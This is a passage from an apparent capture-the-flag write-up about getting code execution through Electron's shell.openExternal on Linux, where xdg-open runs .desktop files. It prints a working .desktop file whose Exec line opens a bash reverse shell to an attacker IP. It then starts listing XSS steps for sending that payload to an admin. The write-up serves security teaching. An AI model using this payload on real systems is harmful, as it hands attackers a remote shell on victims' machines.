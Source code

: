 <figure><img src="../../.gitbook/assets/Screenshot_2022-12-04_at_4.52.18_PM.png" alt=""><figcaption></figcaption></figure>

Since the remote server is running Linux, we need a slightly different way of gaining code execution. Internally, `shell.openExternal` will use the `xdg-open` program to open files. This will not executable binaries, but will instead likely open them with other programs like hex editors.

However, on Ubuntu, `.desktop` files _are_ executed by `xdg-open`, allowing us to specify an executable to be run when the `.desktop` file is opened. For example, here's a `.desktop` file that spawns a reverse shell to our IP address.

```
[Desktop Entry]
Encoding=UTF-8
Version=1.0
Type=Application
Terminal=false
Exec=/bin/bash -c "bash -i >& /dev/tcp/10.129.228.64/1338 0>&1"
Name=RCE
```

### The XSS Rabbit Hole

I was working on this challenge in the final few hours of the CTF and wasted a lot of time on this rabbit hole, so I thought I'd discuss it here (perhaps as a lesson learnt as both a CTF player and a challenge author).

At this point, I thought I needed to:

1. Send a reverse shell payload to the admin
2. Force a `click` trigger on the download link
3. Send a `file:///opt/userland/<filename>` link
4. Force another `click` trigger on the file link
